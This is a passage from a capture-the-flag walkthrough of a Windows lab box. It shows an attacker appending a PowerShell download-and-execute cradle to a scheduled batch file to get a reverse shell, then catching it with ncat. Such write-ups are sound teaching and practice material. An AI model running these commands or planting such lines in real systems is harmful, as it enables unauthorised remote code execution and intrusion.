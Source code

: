 

#### Reverse Shell

I'll use the same reverse shell from my webserver, `REV.PS1`. I'll start
by running the `echo` without the redirection to make sure it looks like
I want:



    PS C:\users\decoder> cmd /c "echo powershell iex(new-object net.webclient).downloadstring('http://10.10.14.6/REV.PS1')"
    powershell iex(new-object net.webclient).downloadstring('http://10.10.14.6/REV.PS1')



Now I'll add it to `clean.bat`:



    PS C:\users\decoder> cmd /c "echo powershell iex(new-object net.webclient).downloadstring('http://10.10.14.6/REV.PS1') >> clean.bat"



Quickly there's a hit on my webserver, and then a connection at a
listening `nc`:



    oxdf@hacky$ rlwrap -cAr ncat -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.72.
    Ncat: Connection from 10.10.10.72:49226.
    Windows PowerShell running as user decoder on FIGHTER
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\Windows\system32>whoami
    fighter\decoder



I can read `user.txt`:



    PS C:\Users\decoder\desktop> type user.txt
    bb6163c1************************



## Shell as SYSTEM

### Enumeration - Drivers

There's a suspicious driver loaded on this box, and there are a few ways
to identify it. `driverquery /v` will show all the drivers on the box,
and if I filter out all the ones in `C:\Windows\System32\Drivers` (using
`findstr`, which is Windows equivalent of `grep`), there's only two
left:
